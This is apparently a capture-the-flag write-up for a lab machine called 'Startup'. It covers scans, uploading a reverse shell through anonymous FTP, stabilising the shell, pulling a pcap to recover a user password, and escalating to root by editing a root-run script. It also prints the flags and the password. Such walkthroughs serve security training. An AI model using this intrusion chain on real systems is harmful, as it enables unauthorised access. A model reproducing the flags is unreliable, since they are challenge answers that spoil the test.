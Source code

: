 # Startup

* IP = 10.10.16.78

## Questions/Tasks:

### Nmap Scan Results:
```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp [NSE: writeable]
| -rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
|_-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 10.4.50.128
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 b9:a6:0b:84:1d:22:01:a4:01:30:48:43:61:2b:ab:94 (RSA)
|   256 ec:13:25:8c:18:20:36:e6:ce:91:0e:16:26:eb:a2:be (ECDSA)
|_  256 a2:ff:2a:72:81:aa:a2:9f:55:a4:dc:92:23:e6:b4:3f (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Maintenance
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
* Hmmm 🤔 FTP is running and allows *Anonymous* login
* Let's try that first..
* Directory listing:
![Screenshot](./ftp.png)
* Get notice.txt, important.jpg and .test.log from the ftp server
* .test.log seems to be useless
* Contents of notice.txt:
```
Whoever is leaving these damn Among Us memes in this share, it IS NOT FUNNY. People downloading documents from our website will think we are a joke! Now I dont know who it is, but Maya is looking pretty sus.
```
* Note the name **Maya**
* important.jpg looks like this:<br>
![Picture](./ftp_files/important.png)
* Only thing we get in the webpage:
![Screenshot](./http.png)
* Lets check gobuster for any other directories:

### GoBuster Scan Results:
```bash
/.hta (Status: 403)
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/files (Status: 301)
/index.html (Status: 200)
/server-status (Status: 403)

```
* Inside /files we have:(looks like the same directory as FTP)
![Screenshot](./http2.png)
* So, we can upload a reverse shell over FTP and return back at the webpage at /files!!
![Screenshot](./ftp2.png)
![Screenshot](./1.png)
![Screenshot](./2.png)

* Stabilize the shell:
```bash
/usr/bin/script -qc /bin/bash /dev/null
Ctrl + Z
stty raw -echo
fg
export TERM=xterm
```
* Finding the files:
```bash
find / -name *.txt 2>/dev/null
```
![Screenshot](./3.png)
* Aww!! 🥰 ❤️

1. What is the secret spicy soup recipe?<br>

**Ans-love**

* Some folders that doesn't belong to root, that are present:
```bash
drwxr-xr-x   2 root     root      4096 Nov 12  2020 vagrant
drwxr-xr-x   2 www-data www-data  4096 Nov 12  2020 incidents
```
* *Vagrant* folder seems empty
* But the incidents folder has contents:
```bash
www-data@startup:/incidents$ ls -la
total 40
drwxr-xr-x  2 www-data www-data  4096 Nov 12  2020 .
drwxr-xr-x 25 root     root      4096 Jun 29 04:13 ..
-rwxr-xr-x  1 www-data www-data 31224 Nov 12  2020 suspicious.pcapng
```
* Lets get that file to local machine and analyze with **Wireshark**
* Remote machine:
```
python3 -m http.server
```
* Local machine:
```
wget http://10.10.16.78:8000/suspicious.pcapng -O suspicious.pcapng
```
* Follow the TCP stream to get the password:
![Screenshot](./4.png)
![Screenshot](./5.png)
* So it turns out **c4ntg3t3n0ughsp1c3** is password for *lennie*
* Navigate to lennie's home directory and get the user flag.
* Hence *Maya* wasn't a valid name and notice.txt & important.jpg were also some distraction stuff!!😮‍💨😮‍💨

2. Contents of user.txt<br>

**Ans-THM{03ce3d619b80ccbfb3b7fc81e46c0e79}**

* There doesn't seem much inside ~/Documents:
```bash
lennie@startup:~$ cd Documents/
lennie@startup:~/Documents$ ls -la
total 20
drwxr-xr-x 2 lennie lennie 4096 Nov 12  2020 .
drwx------ 4 lennie lennie 4096 Nov 12  2020 ..
-rw-r--r-- 1 root   root    139 Nov 12  2020 concern.txt
-rw-r--r-- 1 root   root     47 Nov 12  2020 list.txt
-rw-r--r-- 1 root   root    101 Nov 12  2020 note.txt
lennie@startup:~/Documents$ cat concern.txt
I got banned from your library for moving the "C programming language" book into the horror section. Is there a way I can appeal? --Lennie
lennie@startup:~/Documents$ cat list.txt
Shoppinglist: Cyberpunk 2077 | Milk | Dog food
lennie@startup:~/Documents$ cat note.txt
Reminders: Talk to Inclinant about our lacking security, hire a web developer, delete incident logs.
lennie@startup:~/Documents$
```
* **sudo -l** doesn't work cause we dont know the root password
* **find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null**
* Also doesn't find anything interesting setuid binary to exploit
* Strange files in scripts directory:<br>
![Screenshot](./6.png)
* Lets modify the */etc/print.sh* script:
```
lennie@startup:~/scripts$ ls -la /etc/print.sh
-rwx------ 1 lennie lennie 25 Nov 12  2020 /etc/print.sh
lennie@startup:~/scripts$
```
* Modify like this:<br>
![Screenshot](./7.png)
![Screenshot](./8.png)
* Let it run
* Navigate to /root and get the flag...

3. Contents of root.txt<br>

**Ans-THM{f963aaa6a430f210222158ae15c3d76d}**
